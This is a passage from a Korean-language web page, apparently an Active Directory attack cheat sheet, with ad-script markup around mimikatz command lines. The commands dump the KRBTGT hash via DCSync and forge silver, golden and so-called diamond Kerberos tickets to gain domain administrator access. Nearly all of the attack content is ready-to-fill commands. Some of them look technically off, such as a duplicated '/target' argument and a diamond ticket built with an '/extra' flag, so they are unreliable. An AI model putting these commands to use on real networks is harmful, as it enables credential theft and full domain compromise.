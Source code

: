 <script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
mimikatz.exe "kerberos::golden /domain:<도메인> /sid:<도메인_SID> /target:<대상_서비스> /rc4:<서비스_계정_해시> /user:<대상_사용자> /service:<서비스_이름> /target:<대상_FQDN>" "exit"
```

2. 도메인 컨트롤러와 통신하지 않고 서비스에 인증합니다.

# 골든 티켓

- KRBTGT 계정 해시를 추출합니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
mimikatz.exe "lsadump::dcsync /domain:<도메인> /user:krbtgt" "exit"
```

2. 도메인 관리자 권한을 얻기 위해 골든 티켓 생성.

```js
mimikatz.exe "kerberos::golden /user:<사용자이름> /domain:<도메인> /sid:<도메인SID> /krbtgt:<krbtgt 해시> /id:<사용자ID> /groups:<그룹ID들>" "exit"
```

# 다이아몬드 티켓



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

- 특별 권한이 있는 다이아몬드 티켓을 만들어보세요.

```js
mimikatz.exe "kerberos::golden /user:<username> /domain:<domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /id:<user_id> /groups:<group_ids> /extra:<extra_privileges>" "exit"
```
